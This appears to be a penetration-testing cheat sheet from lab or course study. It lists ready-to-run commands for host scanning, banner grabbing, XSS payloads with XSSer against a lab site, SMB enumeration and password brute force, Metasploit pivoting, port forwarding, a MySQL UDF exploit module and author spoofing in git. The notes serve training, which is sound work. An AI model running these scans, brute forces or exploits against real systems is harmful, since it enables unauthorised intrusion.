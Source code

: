 ## Networking

Check routing table information

```
$ route 
$ ip route
```

Add a network to current route

```
 ip route add <network_ip>/<cidr> via <gateway_ip> dev <network_card_name>
 
```
### Example
```
$ ip route add 192.168.10.0/24 via 10.175.3.1 dev eth1
```

```
$ route add -net 192.168.10.0 netmask 255.255.255.0 gw 10.175.3.1
```
## Footprinting & Scanning

Find live hosts with fping or nmap

```
$ fping -a -g 172.16.100.40/24 2>/dev/null | tee alive_hosts.txt
```

```
$ nmap -sn 172.16.100.40/24 -oN alive_hosts.txt

```


### nmap scan types
```
-sS: TCP SYN Scan (aka Stealth Scan)
-sT: TCP Connect Scan 
-sU: UDP Scan
-sn: Not Port Scan
-sV: Service Version information
-O: Operating System information
```

```
nmap --script=mysql-*
nmap -p27017 --script=mongodb-brute target-2
```

## Subdomain Enumeration

- [Sublist3r](https://github.com/aboul3la/Sublist3r)
- [DNSdumpster](https://dnsdumpster.com/)


## Web Server Fingerprinting

Use netcat for HTTP banner grabbing:
```
$ nc <target addr> 80
HEAD / HTTP/1.0
```

Use OpenSSL for HTTPS banner grabbing:
```
$ openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

httprint is a web fingerprinting tool that uses **signature-based** technique
to identify web servers. This is more accurate since sysadmins can customize
web server banners.

```
$ httprint -P0 -h <target hosts> -s <signature file>
```

## Google Hacking

site:
intitle:
inurl:
filetype:
AND, OR, &, |

```
Example : inurl:admin intitle:login
```
[Google Hacking Database ](https://www.exploit-db.com/google-hacking-database)

## XXS (Cross Site  Scripting)

Look to exploit user input coming from:
- Request headers
- Cookies
- Form inputs
- POST parameters
- GET parameters

Check for XSS
```
<script>alert(1)</script>
<i>some text</i>
```

Steal cookies:
```
<script>alert(document.cookie)</script>
```

### Xsser Tool 

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

target_host=XSS > Is Variable

```

 ## XSSer's "--auto" option

 ```
 xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

 ```
## Using custom XSS payload

 ```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"

 ```

 In Burp Suite, replace the POST parameters with the final attack 

```
target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS

```
## Enum4linux 
- enum4linux -U # enum Users
- enum4linux -d -S # detail and Share list
- enum4linux -n # nbstat if server avaible you got <20>
- enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt # share brute force


# Meterpreter Rooting
## pivot to the otherwise unreachanble network
```
run autoroute -s 192.69.228.0 -n 255.255.255.0
``````
> background
> 
> route print

```
route add 192.69.228.0 255.255.255.0 1
```
## Scan subnet with msf
```
use auxiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.69.228.3-10
exploit
```
## Forwarding the remote port to local port
```
portfwd add -l 1234 -p 21 -r 192.69.228.3
portfwd list
```
```
background
nmap -sS -sV -p 1234 localhost
```
# Meterpreter Post-Exploitation
## Enum_users_Information

```
use post/linux/gather/enum_users_history
```
## Setting Proxy Socks

```
use auxiliary/server/socks_proxy
```
# Meterpreter mysql
## remote server 
```
exploit/multi/mysql/mysql_udf_payload
```
# Find flag
```
find / -name flag.txt 2>/dev/null
find / -name user.txt 2>/dev/null
find / -name .flag 2>/dev/null
find / -name flag 2>/dev/null
find / -name root.txt 2>/dev/null
```

# Mysql 

```
show databases;
use gallery_db;
show tables;
select * from users;
```

# Git Commit with Login

```
git commit -m "Bug Fix" --author "Jeremy McCarthy <jeremy@dummycorp.com>"
```

